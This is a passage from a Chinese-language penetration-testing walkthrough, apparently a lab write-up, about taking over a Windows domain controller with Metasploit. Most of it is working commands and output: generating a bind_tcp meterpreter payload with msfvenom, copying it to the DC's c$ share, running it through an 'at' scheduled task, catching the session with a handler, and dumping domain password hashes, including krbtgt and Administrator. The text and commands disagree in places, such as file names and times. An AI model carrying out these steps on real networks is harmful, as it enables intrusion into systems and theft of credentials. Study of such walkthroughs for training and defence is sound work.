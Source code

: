 ```
msfvenom -p windows/meterpreter/bind\_tcp lport=10000 -f exe >10000.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaic2RxOicVXlxbZeficNOKL6Piah9RibSPJAvnXXQ49wPeIINEgq5g0OviaQA/640?wx_fmt=png)

最后可以使用定时任务让目标 dc 上线到 msf，而我们要生成一个木马让目标上线，注意这里生成的木马需要是正向的，不然目标上线不了：

```
upload /root/10000.exe C:/phpstudy\_pro/WWW/www.webhack123.com/
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaPLEyickRrGv9XP5TxH1msukdKg5xQEsDWqq9XqIKBibdpJNgBXMS9obA/640?wx_fmt=png)

然后吧 10000.exe 先上传到 web 主机上，之后再上传到目标 dc 机器上：

```
copy 10000.exe \\\\dc\\c$\\10000.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaoht2yAtRYgE7mPMUbCK61Uje3TKg3ORm8K7ialxkf6axiaR6DE2fEq9A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaaY4Sht0VtXKN6ia5rdYWd44WRZI2d8p9aRicUDndONoEY1vjra4zEplA/640?wx_fmt=png)

接下来使用 copy 命令吧 4567.exe 上传到 dc 的 c 盘下：

```
net time \\\\dc
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiayzZnNcRodwicJdIkE1c5w53Iw0tHktbjK41fiaBXhl6KibvTvM9yqEqTA/640?wx_fmt=png)

由于我们使用的是 at 定时任务让 dc 执行，那么我们需要知道目标系统的时间：

```
\#  让dc再4.35的时候执行c盘下的10000.exe
at \\\\dc 16:47 c:/10000.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiapjIVw9Ufzpl4MJuNApnINibTpVVJQj9KwRQ4EcIFl4whQwECmww845g/640?wx_fmt=png)

那么我们让他创建一个定时任务：

```
use exploit/multi/handler
set payload windows/meterpreter/bind\_tcp
set lport 10000
set rhost 10.10.10.149
exploit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaepW4Mibax7QQSEsvVricsG4ueibKiauYGsMuocTPVSPl3rCAQptpQTHZMA/640?wx_fmt=png)

最后使用 MSF 设置监听等待上线：

```
meterpreter > run post/windows/gather/smart\_hashdump 

\[\*\] Running module against DC
\[\*\] Hashes will be saved to the database if one is connected.
\[+\] Hashes will be saved in loot in JtR password file format to:
\[\*\] /root/.msf4/loot/20201115171547\_default\_10.10.10.149\_windows.hashes\_505928.txt
\[+\]     This host is a Domain Controller!
\[\*\] Dumping password hashes...
\[+\]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7
\[+\]     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6f60ace6accbcb76078ccc0312174e98
\[+\]     web:1103:aad3b435b51404eeaad3b435b51404ee:086a0bb1ed4ec72250760ea531bf8074
\[+\]     DC$:1000:aad3b435b51404eeaad3b435b51404ee:b5687482bfafb113dc345bb46ef81d69
\[+\]     WEB$:1104:aad3b435b51404eeaad3b435b51404ee:9c85552a37071a3d5cb1323478044b0d
```
